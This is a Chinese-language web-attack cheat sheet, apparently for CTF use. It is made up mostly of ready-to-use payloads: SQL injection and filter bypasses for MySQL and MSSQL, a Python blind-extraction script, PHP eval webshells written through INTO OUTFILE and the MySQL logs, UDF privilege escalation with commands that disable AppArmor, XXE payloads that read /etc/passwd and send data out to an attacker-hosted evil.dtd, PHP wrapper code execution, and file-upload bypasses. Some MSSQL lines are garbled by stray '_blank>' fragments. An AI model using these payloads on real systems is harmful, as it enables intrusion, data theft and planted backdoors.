

# Web常用语句

## 命令执行

> < <> 重定向符
%09(需要php环境)
${IFS}
$IFS$9
{cat,flag.php} //用逗号实现了空格功能
%20
%09

## SQL注入

### 分类

#### 按照注入点类型来分类

（1）数字型注入点

许多网页链接有类似的结构`http://xxx.com/users.php?id=1`基于此种形式的注入，一般被叫做数字型注入点，缘由是其注入点`id`类型为数字，在大多数的网页中，诸如查看用户个人信息，查看文章等，大都会使用这种形式的结构传递id等信息，交给后端，查询出数据库中对应的信息，返回给前台。这一类的 SQL 语句原型大概为 `select * from 表名 where id=1`若存在注入，我们可以构造出类似与如下的sql注入语句进行爆破：`select * from 表名 where id=1 and 1=1`。

（2）字符型注入点

网页链接有类似的结构`http://xxx.com/users.php?name=admin`这种形式，其注入点`name`类型为字符类型，所以叫字符型注入点。这一类的`SQL`语句原型大概为`select * from 表名 where name='admin'`，值得注意的是这里相比于数字型注入类型的sql语句原型多了引号，可以是单引号或者是双引号。若存在注入，我们可以构造出类似与如下的sql注入语句进行爆破：`select * from 表名 where name='admin' and 1=1 ' `我们需要将这些烦人的引号给处理掉。

（3）搜索型注入点

这是一类特殊的注入类型。这类注入主要是指在进行数据搜索时没过滤搜索参数，一般在链接地址中有 "keyword=关键字" 有的不显示在的链接地址里面，而是直接通过搜索框表单提交。此类注入点提交的 SQL 语句，其原形大致为：`select * from 表名 where 字段 like '%关键字%' `若存在注入，我们可以构造出类似与如下的sql注入语句进行爆破：`select * from 表名 where 字段 like '%测试%' and '%1%'='%1%'`

#### 按照数据提交的方式来分类

（1）GET 注入

提交数据的方式是 GET , 注入点的位置在 GET 参数部分。比如有这样的一个链接`http://xxx.com/news.php?id=1`, id 是注入点。

（2）POST 注入
使用 POST 方式提交数据，注入点位置在 POST 数据部分，常发生在表单中。

（3）Cookie 注入
HTTP 请求的时候会带上客户端的 Cookie, 注入点存在 Cookie 当中的某个字段中。

（4）HTTP 头部注入
注入点在 HTTP 请求头部的某个字段中。比如存在 User-Agent 字段中。严格讲的话，Cookie 其实应该也是算头部注入的一种形式。因为在 HTTP 请求的时候，Cookie 是头部的一个字段。

#### 按照执行效果来分类

（1）基于布尔的盲注 Boolean based blind
即可以根据返回页面判断条件真假的注入。

（2）基于时间的盲注 time based blind
即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。

（3）基于报错注入 error based
即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。

（4）联合查询注入 union query based
可以使用union的情况下的注入。

（5）栈查询 stack queries

（6）内联查询 inlin queries

#### 按语句分类

（1）select注入

（2）update注入

（3）insert注入

（4）order注入

（5）desc注入

#### 按注入方式分类

（1）宽字节注入

国内最常使用的 GBK 编码，这种方式主要是绕过 addslashes 等对特殊字符进行转移的绕过。反斜杠 \ 的十六进制为 %5c，在你输入 %bf%27 时，函数遇到单引号自动转移加入 \，此时变为 %bf%5c%27，%bf%5c 在 GBK 中变为一个宽字符「縗」。%bf 那个位置可以是 %81-%fe 中间的任何字符。不止在 SQL 注入中，宽字符注入在很多地方都可以应用。

（2）二次注入


### MYSQL

#### 常用语句

```sql
当前用户：select user() 
数据库版本：select version() , select @@version 
数据库名：select database()
操作系统：select @@version_compile_os
所有变量：show variables
单个变量：select @@secure_file_priv , show variables like 'secure_file_%'
爆字段数：order by 1... ，group by 1...
查库名：select group_concat(schema_name) from information_schema.schemata
查表名：select group_concat(table_name) from information_schema.tables where table_schema='库名'
查字段：select group_concat(column_name) from information_schema.columns where table_name='表名'
读取某行：select * from mysql.user limit n,m // limit m offset n （第n行之后m行，第一行为0）
读文件：select load_file('/etc/passwd')
写文件：select '<?php @eval($_POST[a]);?>' into outfile '/var/www/html/a.php'  //该处文件名无法使用16进制绕过 sqlmap -u "xxxxx" --file-write="/root/Desktop/1.txt" --file-dest="f:\1.txt"
```

#### 常用函数


截取字符串：

`substr('abc',1,1)`、`substring('abc',1,1)`、`left('abc',1)`、`right('abc',1)`，`mid('abc',1,1)`

字符串拼接：

`concat('a','b','c')`，`concat_ws(' ','a','b','c')`

多行拼接：

`group_concat` //eg: select group_concat(user) from mysql.user

时延函数：

`sleep(5)`、`benchmark(10000000,md5('123456'))` //其他方法get_lock()，笛卡尔，rlike等

编码函数: 

`hex`、`ord`、`ascii`、`char`、`conv(255,10,16)`=FF（2-36进制转换）、`unhex`

布尔条件：

`if(1,1,0)`、`position('a' in 'abc')`、`elt(1,'a','b')=a&&elt(2,'a','b')=b`、`(case when (bool) then 1 else 0 end)`、`field('a',3,2,'a')=3`、`nullif('a','b')=1&&nullif('a','a')=null`、`strcmp`、`regexp`、`rlike`、`regexp_like('1','1')`...

#### 绕过方法

##### 绕过空格

```sql
%20、%09、%0a、%0b、%0c、%0d、%a0、%00、/**/、 /*!select*/ 、()、--%0a（可以1-256都跑一遍）
```

其中`%09`需要php环境，`%0a`为\n

`/!select/`为mysql独有。常见用法为`/!50727select 1/`，即当版本号小于等于`50727`时，执行`select 1`


##### 绕过单引号

```
\转义、宽字节%df%27，%bf%27、十六进制绕过
```

##### 注释方法

```
/**/、--+、#、;%00、union /*!select*/（mysql独有）
```

##### select from union select绕过

```sql
select-1,user from mysql.user
select@1,user from mysql.user
select~1,user from mysql.user
select`user`,user from mysql.user
select(1),user from mysql.user
select'1',user from mysql.user
select+1,user from mysql.user

select 1,1e2from mysql.user
select 1,.9from mysql.user
select 1``from mysql.user
select 1''from mysql.user
select 1'123'from mysql.user
select '1'''from mysql.user
select 1""from mysql.user
select "1"""from mysql.user

select 1 from mysql.user where user=.1union select 1
select 1 from mysql.user where user=1e1union select 1
select 1 union--%0aselect 2
select 1 union--%0e%0aselect 2
select 1 union all select 2
```

##### set绕过

```sql
select '123' into @a
select @a:='123'
select 1 from mysql.user where @a:='123'
do @a:='123'
```

##### .绕过(点绕过)//select,from等关键字绕过都可以使用

```sql
select 0x73656c65637420757365722066726f6d206d7973716c2e75736572 into @s;prepare a from @s;EXECUTE a; //0x736... =>'select user from mysql.user'
set @a concat('select user from mysql',char(46),'user');prepare a from @s;EXECUTE a; 
```

##### information_schema绕过

```sql
select table_name from mysql.innodb_index_stats 表名 
select database_name from mysql.innodb_index_stats 库名 
select table_name from mysql.innodb_table_stats 表名 
select database_name from mysql.innodb_table_stats 库名
```

##### 逗号绕过

```sql
select * from ((select 1)A join (select 2)B join (select 3)C) union (select * from ctf) 
select x.1 from (select * from ((select 1)A join (select 2)B join (select 3)C) union (select * from ctf)x)
```

##### 无字段名，同表注入

（1）别名，子查询

```sql
select t.2 from (select 1,2,3 union SELECT * from ctf.user)t LIMIT 1,1
```

（2）堆叠

```sql
select * from ctf.user limit 0,1 into @a,@b,@c;select @a,@b,@c
```

##### order by排序注入

首先假设有这样一张表


有以下代码

```php
<?php
$servername = "localhost";
$username = "root";
$password = "";
$dbname = "ctf";
$conn = new mysqli($servername, $username, $password, $dbname);

function check($s){
         if(preg_match("/\)|\(|_|\.|\|/i",$s))  #()_.|
       {    
             die('hack!'); 
       }
   }
$username=$_GET['username'];
check($username);

$sql = "select * from user where username='$username'";
$result = $conn->query($sql);
 
if ($result->num_rows > 0) {
    if($row = $result->fetch_assoc()) {
        echo "username: " . $row["username"]."<br>";
    }
}
$conn->close();
?>
```

因为`()_.|`被过滤，所以我们无法从`information_schema`和函数获取信息。

现在我们要获取`admin`的`flag`的hash，但是我们不知道字段名，且没有.不能使用别名或子查询的方式获取，可以使用这样的方法。

下面正式开始

首先我们知道`order by`可以排序，所以利用这一点可以进行字符串比较，如下就是`order by`对`admin`进行呢比较我们现在就已经确定前两个字母为`ad`了  


同理，我们对``


现在我们知道admin的flag第一个字符为7了，继续第二个字符


现在我们知道，前两个字符为79了 //9的ascii为57而:的ascii为58，所以:比9大

以此我们可以写出以下脚本

```python
import requests

url= 'http://127.0.0.1/mysql.php'
flag=''
for i in range(50):
    for j in range(48,128):
        payload="?username=xxx' or 1=1 union select 1,2,'%s' order by 3 limit 1,2;\x00"%(flag+chr(j))
        r=requests.get(url+payload).text
        print j
        if 'admin' in r:
            flag+=chr(j-1)
            print flag.lower() #793914c9c583d9d86d0f4ed8c521b0c1
            break
```

##### order by,desc,asc注入

正常的order语句，因为查询两列，所以order by 1,3报错


但是这样就不报错了，甚至不会大整数溢出，但是会产生延时


因为延时注入，会对每一行都执行一次，结果就会变得很慢，所以也可以采用其他的方法。

方法：使用like，regexp等来进行报错注入


payload

```sql
select user,host from mysql.user order by 1,(1 regexp if((1=0),1,0x00));
select user,host from mysql.user order by 1,(1 like if((1=0),1,(select 1+~0)));
```

##### desc注入

用法：desc mysql.user 等同于show columns from mysql.user


怎么利用呢？

漏洞代码：


攻击方法：

```sql
payload:  ?table=note`#` where (select database()='d')#` 
$sql1 => desc `cms_note`#` where (select database()='d')#` 
$sql2 => select * from cms_note`#` where (select database()='d')#` where id = 
```


##### floor报错注入

原理：

rand()，随机一个0-1的数


rand(0)即为rand函数设定种子为0，所以它的值是固定的



在表中表现为这样


floor()为向下取整,所以floor(rand(0)*2)即


count：https://dev.mysql.com/doc/refman/8.0/en/counting-rows.html

count为统计行数，当count与group by 一起使用时会新建一个虚拟表，遍历查询结果，将重复数据进行计数，如果结果不存在于虚拟表内，则添加进虚拟表，count数+1。如图所示


一共652行

使用group by后，会统计每个字段出现的次数


所以 select count() from mysql.user group by floor(rand(0)2) 就是这样一个流程

floor(rand(0)*2)：0 1 1 0 1 1 0 0 1 1 1 ...

首先产生一个空的虚拟表

查询第一行，第一次执行floor(rand(0)2)结果为0，此时虚拟表为空，所以直接插入，插入时会再次执行floor(rand(0)2)，该次为第二次所以实际插入key值为1，count为1

查询第二行，第三次执行floor(rand(0)*2)结果为1，虚拟表中已存在1，所以key值1的count+1,

查询第三行，第四次执行floor(rand(0)2)结果为0，虚拟表中不存在0，所以插入，插入时第五次执行floor(rand(0)2)，该次结果为1，所以插入的key为1，但是key已经存在，所以报错Duplicate entry '1' for key '<group_key>'

所以该报错方式的关键为count、group by、rand。floor只是起到一个辅助作用

payload：

```sql
select count(*),concat(user(),floor(rand(0)*2))x from mysql.user group by x
select count(*) from mysql.user group by concat(user(),floor(rand(0)*2))
select count(*),concat(user(),floor(rand(0)*2)) from mysql.user group by 2
```

##### xpath报错注入

原理比较简单

```sql
updatexml (XML_document, XPath_string, new_value);
extractvalue(XML_document, XPath_string)
```

因为我们输入的第二个参数不符合xpath格式自然报错，xpath_string最大长度为32位，所以报错长度也为`32`位

（1）extractvalue()：

```sql
select extractvalue(1,concat(0x7e,(select user()),0x7e));
```

（2）updatexml()：

```sql
select updatexml(1,concat(0x7e,(select user()),0x7e),1);
```

##### 大整数溢出

```
select 1+~0
select 2*~0
select pow(2,1024)
```


##### name_const列名重复报错

```sql
select * from (select name_const(version(),1),name_const(version(),1))x //只能使用常量和普通字符串
```


##### jion列名重复报错

```
select * from(select a.1 from mysql.user a join mysql.user b)c
```


##### rlike，regexp正则匹配报错

```sql
select 1 regexp 0x00
select 1 regexp ''
select 1 rlike 0x00
```


##### 其他报错注入

mysql低版本以下可用的报错

```sql
select geometrycollection((select * from(select * from(select user())a)b)); 
select multipoint((select * from(select * from(select user())a)b)); 
select polygon((select * from(select * from(select user())a)b)); 
select multipolygon((select * from(select * from(select user())a)b)); 
select linestring((select * from(select * from(select user())a)b)); 
select multilinestring((select * from(select * from(select user())a)b)); 
select exp(~(select * from(select user())a));
```

##### 写webshell

(1) 直接写

查看可写目录范围，默认为空即不可写不可读

```sql
select @@secure_file_priv
```

payload

```sql
select '<?php @eval($_POST[shell]); ?>' into outfile '/etc/www/html/shell.php'
当然，字符串可以为16进制内容
```

(2) 日志写webshell

```
MySQL日志文件系统的组成:
错误日志log_error：记录启动、运行或停止mysqld时出现的问题。
通用日志general_log：记录建立的客户端连接和执行的语句。
更新日志：记录更改数据的语句。该日志在MySQL 5.1中已不再使用。
二进制日志：记录所有更改数据的语句。还用于复制。
慢查询日志slow_query_log：记录所有执行时间超过long_query_time秒(默认10秒)的所有查询或不使用索引的查询。
Innodb日志：innodb redolog
```

以下举例两种

```sql
show global variables like "%general%";                 #查看general文件配置情况
set global general_log='on';                            #开启日志记录
set global general_log_file='C:/phpstudy/WWW/shell.php';
select '<?php @eval($_POST[shell]); ?>';                #日志文件导出指定目录
set global general_log=off;                             #关闭记录
```

```sql
show variables like '%slow%';                           #慢查询日志

set GLOBAL slow_query_log_file='C:/phpStudy/PHPTutorial/WWW/slow.php';
set GLOBAL slow_query_log=on;

/*set GLOBAL log_queries_not_using_indexes=on;
show variables like '%log%';*/

select '<?php phpinfo();?>' from mysql.user where sleep(10);
```

##### UDF 提权

大致流程如下，将udf文件windows为dll文件 ,linux为so文件导入服务器mysql插件目录即可。

可以自己写一些udf文件来编译。

推荐sqlmap提供的udf文件

https://github.com/sqlmapproject/sqlmap/tree/master/data/udf

因为udf文件较大，详细点击这里

https://files.cnblogs.com/files/kagari/udf.js

高版本中mysql无法向/usr目录写文件，可以导入到/tmp，之后mv到/usr/lib/mysql/plugin下

导入成功之后，如果执行命令为空，则今儿参考https://www.cyberciti.biz/faq/ubuntu-linux-howto-disable-apparmor-commands/

```sh
执行
ln -s /etc/apparmor.d/usr.sbin.mysqld /etc/apparmor.d/disable/
apparmor_parser -R /etc/apparmor.d/usr.sbin.mysqld
service mysql restart
```

##### mysql任意文件读漏洞

原理：

当服务端执行`load data local infile`时，会从客户端会读取对应的文件。 //load data infile则是从服务端本身读取

mysql客户端连接服务端时，服务端可以让客户端执行sql语句，

所以伪造一个服务端，让客户端连接并执行load data local infile即可任意文件读。

这里推荐下 ev0A大佬的工具：https://github.com/ev0A/Mysqlist

例子: phpmyadmin开启远程登陆后就会出现该漏洞

##### 格式化字符串漏洞与sql注入

```php
//?user=%1$\&pass=%20or%201=1%23
<?php
$user=addslashes($_GET['user']);
$pass=addslashes($_GET['pass']);
$sql = "select * from user where username = '$user' and password='%s';";
echo sprintf( $sql, $pass) ;
//select * from user where username = '\' and password=' or 1=1#';
?>
```

### MSSQL

```
1.判断有无注入点 
; and 1=1 and 1=2

2.猜表一般的表的名称无非是admin adminuser user pass password 等.. 
and 0<>(select count(*) from *) 
and 0<>(select count(*) from admin) ---判断是否存在admin这张表

3.猜帐号数目 如果遇到0< 返回正确页面 1<返回错误页面说明帐号数目就是1个 
and 0<(select count(*) from admin) 
and 1<(select count(*) from admin)

4.猜解字段名称 在len( ) 括号里面加上我们想到的字段名称. 
and 1=(select count(*) from admin where len(*)>0)-- 
and 1=(select count(*) from admin where len(用户字段名称name)>0) 
and 1=(select count(*) from admin where len(_blank>密码字段名称password)>0)

5.猜解各个字段的长度 猜解长度就是把>0变换 直到返回正确页面为止 
and 1=(select count(*) from admin where len(*)>0) 
and 1=(select count(*) from admin where len(name)>6) 错误 
and 1=(select count(*) from admin where len(name)>5) 正确 长度是6 
and 1=(select count(*) from admin where len(name)=6) 正确

and 1=(select count(*) from admin where len(password)>11) 正确 
and 1=(select count(*) from admin where len(password)>12) 错误 长度是12 
and 1=(select count(*) from admin where len(password)=12) 正确

6.猜解字符 
and 1=(select count(*) from admin where left(name,1)=a) ---猜解用户帐号的第一位 
and 1=(select count(*) from admin where left(name,2)=ab)---猜解用户帐号的第二位 
就这样一次加一个字符这样猜,猜到够你刚才猜出来的多少位了就对了,帐号就算出来了 
and 1=(select top 1 count(*) from Admin where Asc(mid(pass,5,1))=51) -- 
这个查询语句可以猜解中文的用户和_blank>密码.只要把后面的数字换成中文的ASSIC码就OK.最后把结果再转换成字符.

group by users.id having 1=1-- 
group by users.id, users.username, users.password, users.privs having 1=1-- 
; insert into users values( 666, attacker, foobar, 0xffff )--

UNION SELECT TOP 1 COLUMN_blank>_NAME FROM INFORMATION_blank>_SCHEMA.COLUMNS

WHERE TABLE_blank>_NAME=logintable- 
UNION SELECT TOP 1 COLUMN_blank>_NAME FROM INFORMATION_blank>_SCHEMA.COLUMNS

WHERE TABLE_blank>_NAME=logintable WHERE COLUMN_blank>_NAME NOT IN (login_blank

>_id)- 
UNION SELECT TOP 1 COLUMN_blank>_NAME FROM INFORMATION_blank>_SCHEMA.COLUMNS

WHERE TABLE_blank>_NAME=logintable WHERE COLUMN_blank>_NAME NOT IN (login_blank

>_id,login_blank>_name)- 
UNION SELECT TOP 1 login_blank>_name FROM logintable- 
UNION SELECT TOP 1 password FROM logintable where login_blank>_name=Rahul--

看_blank>服务器打的补丁=出错了打了SP4补丁 
and 1=(select @@VERSION)--

看_blank>数据库连接账号的权限，返回正常，证明是_blank>服务器角色sysadmin权限。 
and 1=(SELECT IS_blank>_SRVROLEMEMBER(sysadmin))--

判断连接_blank>数据库帐号。（采用SA账号连接 返回正常=证明了连接账号是SA） 
and sa=(SELECT System_blank>_user)-- 
and user_blank>_name()=dbo-- 
and 0<>(select user_blank>_name()--


$input -1' union select 1,1,(select group_concat(schema_name) from information_schema.schemata)'查询所有的数据库名字。

$input -1' union select 1,1,(select group_concat(table_name) from information_schema.tables where table_schema = 'ctftraining')'查询ctftraining这个库中所有表的名字。

$input -1' union select 1,1,(select group_concat(column_name) from information_schema.columns where table_name = "flag")'查询flag表中所有的列的名字。

$input id=-1' union select 1,1,(select group_concat(flag) from ctftraining.flag)'


连接字符串常用函数
CONCAT(str1,str2,...)
CONCAT_WS(SEPARATOR,str1,str2,...)--concat with separator
GROUP_CONCAT()，用来连接查询出来的很多行，上面两个都是连接列。
```


---

## XXE

```
POST / HTTP/1.1
Host: 101.132.135.45:28001
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Type: text/xml
Referer: http://101.132.135.45:8000/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=13618e55-714d-4932-ae36-c6aa405f8fff.vBpJ9Y-0gDfL6_Feoc8giial35Y
Connection: close
Content-Length: 392

<?xml version="1.0"?>
<!DOCTYPE note [
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to      (#PCDATA)>
  <!ELEMENT from    (#PCDATA)>
  <!ELEMENT heading (#PCDATA)>
  <!ELEMENT body    (#PCDATA)>
  <!ENTITY xxe SYSTEM "file:///flag">
]>
<note>
  <to>George &xxe;</to>
  <from>John</from>
  <heading>Reminder</heading>
  <body>Don't forget the meeting!</body>
</note>

```


### 有回显

（1）直接将外部实体引用的URI设置为敏感目录

```php
<?php
    libxml_disable_entity_loader (false);
    //若为true，则表示禁用外部实体
    $xmlfile = file_get_contents('php://input');
    //可以获取POST来的数据
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]>
<creds>&goodies;</creds>
```

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<name>&xxe;</name>
```

在使用过程中注意实体应用的位置，否则可能无法回显，如下图对比，`&xxe`调用的位置不一样，所以一个有输出，一个没有输出


（2）将外部实体引用的 URL 设置到本地服务器，本地构建恶意 dtd 文件，远程注入


```xml
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  % xxe SYSTEM "http://xxx.xxx.xxx/evil.dtd" >
%xxe;]>
<foo>&evil;</foo>

外部 evil.dtd 中的内容：
<!ENTITY evil SYSTEM "file:///etc/passwd" >
```

### 无回显

可以使用外带数据通道提取数据，先使用 filter:/// 获取目标文件的内容，然后将内容以 http 请求发送到接收数据的服务器（攻击服务器）。实体 remote，all，send 的引用顺序很重要，首先对 remote 引用的目的是将外部文件 evil.xml 引入到解释上下文中，然后执行 %all，这时会检测到 send 实体，在 root 节点中引用 send，就可以成功实现数据转发

 第一种

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://192.168.248.1/evil.dtd">
%remote;%int;%send;
]>
<root><name>admin2</name><password>admin &xxe;</password></root>
```

evil.dtd 的内容，注意`&#37`不是乱码，就是这样写。

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///var/www/html/xxe/admin.php">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.248.1:8000?p=%file;'>">
```

第二种

```xml
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://192.168.2.119/evil.dtd">
%remote;%int;%send;
]>
<root><name>admin2</name><password>admin;</password></root>
```

evil.dtd 的内容，注意`&#37`不是乱码，就是这样写。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/windows/system.ini">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.2.119?p=%file;'>">
```

## SSRF

使用`sniffer`软件可以监听网卡某一个端口，工具地址
https://github.com/firebroo/sec_tools/tree/master/common-gopher-tcp-stream

使用工具 https://github.com/tarunkant/Gopherus 可以自动生成多种类型的`Gopher`


## 伪协议

file://、php://filter、php://input、zip://、compress.bzip2://、compress.zlib://、data://

### file://协议

```
PHP.ini：
file:// 协议在双off的情况下也可以正常使用；
allow_url_fopen ：off/on
allow_url_include：off/on
```

file:// 用于访问本地文件系统，在CTF中通常用来读取本地文件的且不受allow_url_fopen与allow_url_include的影响


file://[文件的绝对路径和文件名]

http://127.0.0.1/cmd.php?file=file://D:/soft/phpStudy/WWW/phpcode.txt

### php://协议

不需要开启`allow_url_fopen`，仅`php://input、 php://stdin、 php://memory 、 php://temp `需要开启`allow_url_include`。

php:// 访问各个输入/输出流（I/O streams），在CTF中经常使用的是php://filter和php://input，`php://filter`用于读取源码，`php://input`用于执行php代码。

参考自：http://php.net/manual/zh/wrappers.php.php#refsect2-wrappers.php-unknown-unknown-unknown-descriptioq

`php://filter` 是一种元封装器，用于数据流打开时筛选过滤应用。这对于一体式（all-in-one）的文件函数非常有用。类似readfile()、file()、file_get_contents(),在数据流读取之前没有机会使用其他过滤器。

已如下格式使用

```
php://filter/[read/write]=string.[rot13/strip_tags/…..]/resource=xxx
php://filter/convert.base64-[encode/decode]/resource=xxx
```

启用场景

```
PHP.ini：
php://filter在双off的情况下也可以正常使用；
allow_url_fopen ：off/on
allow_url_include：off/on
```

测试现象：

http://127.0.0.1/cmd.php?file=php://filter/read=convert.base64-encode/resource=./cmd.php


`php://input`可以访问请求的原始数据的只读流, 将post请求中的数据作为PHP代码执行。

```
PHP.ini：
allow_url_fopen ：off/on
allow_url_include：on
```


测试现象：

http://127.0.0.1/cmd.php?file=php://input

[POST DATA] <?php phpinfo()?>

也可以POST如下内容生成一句话： <?php fputs(fopen(“shell.php”,”w”),’<?php eval($_POST["cmd"];?>’);?>


### zip://, bzip2://, zlib://协议

```
PHP.ini：
zip://, bzip2://, zlib://协议在双off的情况下也可以正常使用；
allow_url_fopen ：off/on
allow_url_include：off/on
```

zip://, bzip2://, zlib:// 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名。


#### zip://协议

使用方法：

```
zip://archive.zip#dir/file.txt
zip:// [压缩文件绝对路径]#[压缩文件内的子文件名]
```

测试现象：

http://127.0.0.1/cmd.php?file=zip://D:/soft/phpStudy/WWW/file.jpg%23phpcode.txt

先将要执行的PHP代码写好文件名为phpcode.txt，将phpcode.txt进行zip压缩,压缩文件名为file.zip,如果可以上传zip文件便直接上传，若不能便将file.zip重命名为file.jpg后在上传，其他几种压缩格式也可以这样操作。

由于#在get请求中会将后面的参数忽略所以使用get请求时候应进行url编码为%23，且此处经过测试相对路径是不可行，所以只能用绝对路径。


#### bzip2://协议

使用方法：

```
compress.bzip2://file.bz2
```

测试现象：

http://127.0.0.1/cmd.php?file=compress.bzip2://D:/soft/phpStudy/WWW/file.jpg

or

http://127.0.0.1/cmd.php?file=compress.bzip2://./file.jpg


#### zlib://协议

使用方法：

```
compress.zlib://file.gz
```

测试现象：

http://127.0.0.1/cmd.php?file=compress.zlib://D:/soft/phpStudy/WWW/file.jpg

or

http://127.0.0.1/cmd.php?file=compress.zlib://./file.jpg


### data://协议

经过测试官方文档上存在一处问题，经过测试PHP版本5.2，5.3，5.5，7.0；data:// 协议是是受限于allow_url_fopen的，官方文档上给出的是NO，所以要使用data://协议需要满足双on条件

```
PHP.ini：
data://协议必须双在on才能正常使用；
allow_url_fopen ：on
allow_url_include：on
```

参考自：http://php.net/manual/zh/wrappers.data.php, 官方文档上allow_url_fopen应为yes。


测试现象：

http://127.0.0.1/cmd.php?file=data://text/plain,<?php phpinfo()?>

or

http://127.0.0.1/cmd.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

也可以：

http://127.0.0.1/cmd.php?file=data:text/plain,<?php phpinfo()?>

or

http://127.0.0.1/cmd.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=


### phar://

PHP 归档，常常跟文件包含，文件上传结合着考察。说通俗点就是php解压缩包的一个函数，解压的压缩包与后缀无关。

```
phar://test.[zip/jpg/png…]/file.txt
```

其实可以将任意后缀名的文件(必须要有后缀名)，只要是zip格式压缩的，都可以进行解压，因此上面可以改为phar://test.test/file.txt也可以运行。


### jar:// 协议

Java 中有一个比较神奇的协议 jar:// ， php 中的 phar:// 似乎就是为了实现 jar:// 的类似的功能设计出来的。

jar:// 协议的格式：

```
jar:{url}!{path
```

实例

```
http://host/application.jar!/file/within/the/zip
这个 ! 后面就是其需要从中解压出的文件
```

### 总结

PHP封装协议在CTF蛮常见的，是经常会遇到的出题点，如下便是对本篇涉及的封装协议进行的总结。


## 文件上传

### 前段检查（js）检查

前端对文件后缀进行检查，该种通过抓包修改数据包即可解决

### 文件名检查

**大小写绕过**

在windows下，可以将后缀写为pHp

**unicode**

当目标存在json_decode且检查在json_decode之前,可以将php写为\u0070hp

**php3457**

该项为apache专属

关键点在`/etc/apache2/mods-available/php5.6.conf`这个文件，满足`.+\.ph(p[3457]?|t|tml)$`，都会被当作`php`文件解析。在`apache2`目录下`grep -r x-httpd-php /etc/apache2`找到对应文件就能知道解析哪些后缀。


**利用正则回溯pcre限制**

pcre默认限制为100w

参考文章：[PHP利用PCRE回溯次数限制绕过某些安全限制](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)

有如下场景

```php
<?php
if(!preg_match('/.+?ph/is',$_POST['n']))
file_put_contents($_POST['n'],$_POST['s']);
```

可利用如下exp解决

```python
import requests

data= {'n':"php://filter/write=convert.base64-decode/"+'/'*1000000+'/resource=shell.php','s':"PD9waHAgcGhwaW5mbygpPz4="}

print (requests.post('http://127.0.0.1',data=data).text)
```

### 请求头检查：content-type，MIME类型

将php文件的`content-type:application/octet-stream`修改为`image/png`等就可以

更多content-type：可以查看https://tool.oschina.net/commons/

### 解析漏洞、语言特性及漏洞

#### Apache2

（1）多后缀解析漏洞

在Apache 2.0.x <= 2.0.59，Apache 2.2.x <= 2.2.17，Apache 2.2.2 <= 2.2.8中Apache 解析文件的规则是从右到左开始判断解析,如果后缀名为不可识别文件解析,就再往左判断。

如1.php.abc，因apache2不识别.abc后缀，所以向前解析php

（2）.htaccess

Apache提供了一种很方便的、可作用于当前目录及其子目录的配置文件——.htaccess（分布式配置文件）

当站点配置上标有AllowOverride All，并且rewrite_mod开启时，.htaccess文件就会生效。

1.Options

列目录

```php
Options +Indexes 
```

可以执行cgi程序

```php
Options ExecCGI 
```

解析cgi的参考链接https://www.freebuf.com/vuls/218495.html

2.AddType application/x-httpd-php abc

当在.htaccess中写入AddType application/x-httpd-php abc时，就会把1.abc当作php文件解析

3.php_value、php_admin

```php
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
php_value auto_append_file .htaccess
+ADw?php phpinfo()+Ads
```
```php
<?php
echo mb_convert_encoding('<?php eval($_POST["x"]);?>', "UTF-7", "UTF-8");
?>
```

UTF-7、UTF-16、UTF-32皆可

任意文件下载

```
php_flag engine 0
```

除此之外还可以这样书写.htaccess


（3）CVE-2017-15715

利用在上传文件时，文件名之后添加一个\x0a来绕过黑名单上传的限制

#### Nginx

（1）CVE-2013-4547

参考https://github.com/vulhub/vulhub/tree/master/nginx/CVE-2013-4547

即上传一个1.gif，然后访问1.gif[0x20][0x00].php([0x20][0x00]为空格和\0不需要url编码)，1.gif会被当作php解析

（2）php-cgi漏洞

在php配置文件中，开启了cgi.fix_pathinfo，导致图片马1.jpg可以通过访问1.jpg/.php解析成php

（3）.user.ini

